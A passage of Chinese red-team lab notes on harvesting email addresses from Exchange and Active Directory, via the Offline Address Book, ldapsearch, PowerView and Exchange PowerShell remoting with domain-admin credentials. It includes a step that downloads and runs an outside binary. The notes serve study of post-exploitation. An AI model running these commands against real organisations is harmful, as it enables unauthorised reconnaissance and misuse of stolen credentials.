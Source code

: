 ```
```

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/Exchange/2.png)

请求 `<OABUrl>/oab.xml` 页面并列出 OAB 文件：

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/Exchange/3.png)

找到其中 Default Global Address List (默认全局地址列表) 对应的 lzx 文件名称，lzx 文件名称为 fd1e35ac-08ef-4e4c-a6fc-b8b88c69c7b2-data-1.lzx

下载 lzx 文件
```
win-4j4l8gp7bf2.f8x.com/OAB/b6eaa1c0-d7f5-4619-ad8d-b453f967353b/fd1e35ac-08ef-4e4c-a6fc-b8b88c69c7b2-data-1.lzx
```

对 lzx 文件解码，还原出 Default Global Address List
```
wget http://x2100.icecube.wisc.edu/downloads/python/python2.6.Linux-x86_64.gcc-4.4.4/bin/oabextract
chmod +x oabextract
./oabextract fd1e35ac-08ef-4e4c-a6fc-b8b88c69c7b2-data-1.lzx gal.oab
strings gal.oab|grep SMTP
```

#### ldap

```
ldapsearch -x -H ldap://$IP:389 -D "CN=$username,CN=Users,DC=f8x,DC=com" -w $password -b "DC=f8x,DC=com" |grep mail:
```

Windows 系统通过 PowerView 获取所有用户邮件地址
```
$uname=$username
$pwd=ConvertTo-SecureString $password -AsPlainText -Force
$cred=New-Object System.Management.Automation.PSCredential($uname,$pwd)
Get-NetUser -Domain f8x.com -DomainController $IP -ADSpath "LDAP://DC=f8x,DC=com" -Credential $cred | fl mail
```

#### 域内查询

域内查询可以使用传统的内网渗透方式导出域用户。也可以使用域管直接远程操作 Exchange 导出邮箱地址。

```
$User = "f8x\administrator"
$Pass = ConvertTo-SecureString -AsPlainText DomainAdmin123! -Force
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList $User,$Pass
$Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://Exchange01.f8x.com/PowerShell/ -Authentication Kerberos -Credential $Credential
Import-PSSession $Session -AllowClobber
Get-Mailbox|fl PrimarySmtpAddress
Remove-PSSession $Session
```
